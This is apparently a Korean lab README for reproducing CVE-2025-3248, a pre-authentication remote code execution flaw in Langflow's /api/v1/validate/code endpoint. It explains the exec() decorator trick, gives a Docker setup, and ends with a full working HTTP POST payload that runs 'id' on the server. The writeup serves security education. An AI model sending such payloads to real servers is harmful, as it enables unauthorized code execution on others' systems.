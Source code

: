 #  Langflow `validate/code` API Pre-Auth Remote Code Execution (CVE-2025-3248)

> 화이트햇 스쿨 3기 5반 - [유진우 (@jin182)](https://github.com/jin182)

Langflow는 에이전트 기반 AI 워크플로우를 구축할 수 있는 인기 있는 오픈소스 도구로, 사용자는 웹 기반의 Python 인터페이스를 통해 시각적으로 AI 파이프라인을 구성할 수 있습니다.

버전 1.3.0 미만의 Langflow에는 심각한 인증 우회 원격 코드 실행(RCE) 취약점인 CVE-2025-3248이 존재합니다.
취약한 엔드포인트 /api/v1/validate/code는 사용자가 제출한 Python 코드를 ast 모듈로 파싱하고, 함수 정의를 exec()를 이용해 실행함으로써 유효성을 검사합니다.
하지만 Python에서는 데코레이터나 기본 인자 값도 함수 정의 시점에 실행되기 때문에, 이를 악용해 임의의 코드 실행이 가능합니다.

공격자는 악성 데코레이터 또는 기본 인자 표현식을 포함한 특수 제작된 함수 정의를 이 API에 전송함으로써, 서버 사용자 권한으로 코드를 실행할 수 있습니다.

참고자료:
- <https://horizon3.ai/attack-research/disclosures/unsafe-at-any-speed-abusing-python-exec-for-unauth-rce-in-langflow-ai/>
- <https://github.com/langflow-ai/langflow/releases/tag/1.3.0>
- <https://github.com/langflow-ai/langflow/pull/6911>

환경 구성
아래 명령어를 실행하면 Langflow 1.2.0 서버가 Docker로 실행됩니다:

```
docker compose up -d
```

![](1.png)

서버가 실행되면, 웹 인터페이스는 `http://your-ip:7860`에서 접근할 수 있으며
기본 로그인 정보는 administrator:vulhub입니다.

![](2.png)

취약점 재현
다음은 이 취약점을 재현하는 방법입니다.
/api/v1/validate/code 엔드포인트에 악성 Python 함수 정의를 포함한 POST 요청을 전송하면 됩니다.
아래 예시는 데코레이터를 통해 서버에서 id 명령을 실행합니다:

```
POST /api/v1/validate/code HTTP/1.1
Host: your-ip:7860
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 105

{"code": "@exec(\"raise Exception(__import__('subprocess').check_output(['id']))\")\ndef foo():\n  pass"}
```